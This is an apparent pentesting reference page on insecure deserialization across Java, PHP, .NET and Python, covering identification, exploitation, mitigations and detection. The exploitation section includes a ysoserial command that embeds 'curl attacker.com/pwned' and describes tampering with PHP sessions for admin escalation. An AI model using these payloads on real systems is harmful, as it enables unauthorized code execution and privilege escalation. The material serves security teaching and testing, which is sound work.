

# Insecure Deserialization

Exploit unsafe object deserialization in web applications.

## Overview Diagram

<div class="sr-diagram" markdown="1">



</div>

## How It Works

Insecure deserialization restores attacker-controlled byte streams or text into runtime objects. If the application trusts serialized data from cookies, hidden fields, message queues, or APIs, gadget chains in the language runtime can lead to arbitrary code execution.

**Java**: `ObjectInputStream.readObject()` with commons-collections gadgets (ysoserial).

**PHP**: `unserialize()` on user cookies enabling property-oriented programming.

**.NET**: `BinaryFormatter`, `Json.NET TypeNameHandling.All`.

**Python**: `pickle.loads()` is never safe on untrusted input.

The vulnerability is not merely parsing JSON—it's **type resurrection** and **gadget invocation** where magic methods (`__reduce__`, `readObject`) chain into dangerous sinks (exec, file write, JNDI lookup).

Serialized blobs often appear Base64-encoded in cookies (`rO0AB...` Java, `O:8:"stdClass"` PHP).

## Exploitation

**Identification**

1. Capture cookies, POST bodies, and WebSocket messages with magic signatures.
2. Decode Base64 and inspect for Java serialization headers (`ac ed 00 05`), PHP `O:` prefixes.

**Java gadget generation**

```bash
ysoserial.jar CommonsCollections6 'curl attacker.com/pwned' | base64
```

Replace session cookie or API field with malicious payload; trigger deserialization on next request.

**PHP example**

Manipulate object properties in serialized session to change `role` from `user` to `admin` when app compares object fields without re-validation.

**Attack flow**

```
Tampered serialized object → server deserializes → gadget chain executes → RCE or privilege escalation
```

**Blind cases**

- Out-of-band DNS/HTTP from JNDI injection chains (Log4Shell class of issues)
- Time-delay gadgets for confirmation

**Tools**: ysoserial, phpggc, Burp Java Deserialization Scanner

## Defense & Mitigation

**Do not deserialize untrusted data**. Use JSON with schema validation and plain data types—never pick `TypeNameHandling.All` or Java polymorphic default typing without safeguards.

**Hardening when serialization is required**

- Java: `ObjectInputFilter`, allow-list classes, avoid dangerous libraries on classpath.
- .NET: Replace `BinaryFormatter`; use `System.Text.Json` without type names.
- Python: Never `pickle` from users; use JSON/msgpack with validation.

**Integrity**

- Sign encrypted tokens (HMAC) so tampering is detected before parse.
- Short-lived session blobs stored server-side instead of client-side serialized state.

**Dependency hygiene**

- Remove unused gadget libraries (commons-collections old versions).
- Monitor for known CVEs in serialization stacks.

**Detection**

- WAF rules for Java serialization magic bytes in cookies.
- EDR alerts on child processes spawned from app servers after cookie updates.

## Methodology

- [ ] Identify serialized object formats (Java, PHP, .NET, Python)
- [ ] Use known gadget chains for the stack
- [ ] Test tampered cookies and API bodies
- [ ] Validate impact with safe proof-of-concept payloads

## Tools

| Tool | Usage |
|------|-------|
| `ysoserial` | [Java deserialization payloads](../../TOOLS_GUIDE.md#ysoserial) |
| `phpggc` | [PHP deserialization payloads](../../TOOLS_GUIDE.md#phpggc) |
| `burp` | [Intercept, repeater & scanner](../../TOOLS_GUIDE.md#burp-suite) |

## Resources

- [OWASP Deserialization](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/16-Testing_for_HTTP_Insecure_Deserialization)

## Verification Checklist

- [ ] Review scope and rules of engagement
- [ ] Document baseline behavior
- [ ] Test edge cases and parser differentials
- [ ] Capture proof-of-concept safely
- [ ] Write remediation guidance
